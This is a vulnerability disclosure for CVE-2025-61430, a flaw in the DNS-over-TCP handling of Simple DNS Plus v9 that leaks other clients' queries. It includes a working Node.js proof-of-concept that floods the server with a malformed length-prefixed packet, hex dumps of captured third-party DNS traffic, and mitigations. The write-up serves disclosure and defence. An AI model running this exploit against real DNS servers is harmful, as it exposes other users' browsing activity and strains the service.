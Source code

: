 ```yaml
---
title: Cross-client request leakage in Simple DNS Plus CVE-2025-61430
date: 2025-10-09
---
```


CVE ID: CVE-2025-61430

# Introduction

Improper handling of DNS over TCP in Simple DNS Plus v9 allows a remote attacker with querying access to the DNS server to cause the server to return request payloads from other clients. This happens when the TCP length prefix is malformed (len ≠ actual packet len), and due to a concurrency/buffering issue, even when the lengths match. A length prefix that is smaller than the actual packet size increases information leakage. In summary, this vulnerability allows an attacker to see DNS queries of other clients’ (CWE-125 / CWE-130 / CWE-444).

# Affected components

- Product: `Simple DNS Plus` v9.1.116
- Feature: DNS over TCP
- Host device: Windows Server 2019

# Reproduction

This was done on a device running macOS 26 connected to the network with a Simple DNS resolver forced. DNS requests to other resolvers were blocked by blocking port 53 outbound.

The following script was run, and server responses were logged to a text file.

```bash
node script.js
# in another terminal
tail -f log.txt
```

```jsx
import dns from "dns/promises"
import net from "net";
import fs from "fs";
// long dummy packet - real len doesn't matter
const data = new Uint8Array([
	0x00, 0x00, 0xFC, 0x10, 0x1A, 0x8A, 0x32, 0x01, 0x86, 0x56, 0xCD, 0xF5,
	0x94, 0x87, 0x08, 0x00, 0x45, 0x00, 0x00, 0x00, 0x00, 0x5E, 0xAA, 0x40,
	0x00, 0x00, 0x40, 0x11, 0x5E, 0x3B, 0x0A, 0x78, 0x49, 0x07, 0x0A, 0x78,
	0x00, 0x20, 0x14, 0x1D, 0xC8, 0x76, 0x00, 0x35, 0x00, 0x4A, 0xAC, 0x84,
	0x83, 0xA1, 0x01, 0x00, 0x00, 0x01, 0x00, 0x30, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x24, 0x70, 0x72, 0x6F, 0x64, 0x2D, 0x74, 0x65, 0x73, 0x74,
	0x00, 0x40, 0x2D, 0x77, 0x68, 0x61, 0x74, 0x2D, 0x74, 0x68, 0x69, 0x73,
	0x2D, 0x69, 0x73, 0x2D, 0x61, 0x2D, 0x00, 0x50, 0x74, 0x65, 0x73, 0x74,
	0x2D, 0x64, 0x6F, 0x6D, 0x61, 0x69, 0x6E, 0x07, 0x65, 0x78, 0x61, 0x6D,
	0x00, 0x60, 0x70, 0x6C, 0x65, 0x03, 0x6F, 0x72, 0x67, 0x00, 0x00, 0x01,
	0x00, 0x01
]);

// tcp headers
const length = Buffer.alloc(2);
length.writeUInt16BE(data.length);
const packet = Buffer.concat([length, Buffer.from(data)]);
// returned the DHCP simple dns servers - 10.9.0.75
const dnsServers = dns.getServers()
// cross testing
for (const server of dnsServers) {
  let l = 0
  setInterval(() => {
    const socket = new net.Socket();
    socket.on('error', () => socket.destroy());
    socket.on('timeout', () => socket.destroy());
    socket.on('data', (data) => fs.promises.appendFile('log.txt', data.toString("hex") + "\n"));
    socket.connect(53, server,  () => {
     socket.write(packet);
      l++
      console.log("attempt (m) ", l);
    });
  },0);
}

```

The packet was sent 28,700 times (40 seconds), and DNS requests were logged. These requests were confirmed not to have been made from the test machine. A 2nd machine was tried with domains that are known not to exist, but due to the heavy traffic, the machine’s queries weren’t logged. The following domains were confirmed to have never been queried by the test machine.

```

cbef81800001000100000000047061706905686d68636f03636f6d0000410001c00c000500010000002800180771793467383338017808696e636170646e73036e657400
348d818000010006000000000e656e637279707465642d74626e30076773746174696303636f6d0000010001c00c000100010000000c00048efb6f66c00c000100010000000c00048efb6f8ac00c000100010000000c00048efb6f8bc00c000100010000000c00048efb6f65c00c000100010000000c00048efb6f71c00c000100010000000c00048efb6f64
eb66818000010006000000000e656e637279707465642d74626e30076773746174696303636f6d0000010001c00c000100010000000c00048efb6f66c00c000100010000000c00048efb6f8ac00c000100010000000c00048efb6f8bc00c000100010000000c00048efb6f65c00c000100010000000c00048efb6f71c00c000100010000000c00048efb6f64
b9b9818200010000000000000b6d61746368616473727672077969656c646d6f03636f6d0000010001
bd83818200010000000000000b6d61746368616473727672077969656c646d6f03636f6d0000010001
1c9181820001000000000000046d61696c06676f6f676c6503636f6d0000010001
f1a281820001000000000000046d61696c06676f6f676c6503636f6d0000010001
ce1b818000010004000000000465646765096d6963726f736f667403636f6d0000010001c00c000500010000042b002a12656467652d6d6963726f736f66742d636f6d0761782d303030320961782d6d7365646765036e657400c030000500010000002000170761782d303030320c61782d64632d6d7365646765c055c0660001000100000023000496ab1d0bc0660001000100000023000496ab1e0b
8fc781820001000000000000146f7074696d697a6174696f6e67756964652d70610a676f6f676c656170697303636f6d0000410001
b56481820001000000000000146f7074696d697a6174696f6e67756964652d70610a676f6f676c656170697303636f6d0000410001

```

![](01-img1.jpg)

These are malformed DNS queries by other machines on the network, and pcap logs confirm that the test machine did not look these queries up.

# Mitigations

- Validating packet length directly instead of relying on the header
- Make sure each connection has an individual buffer
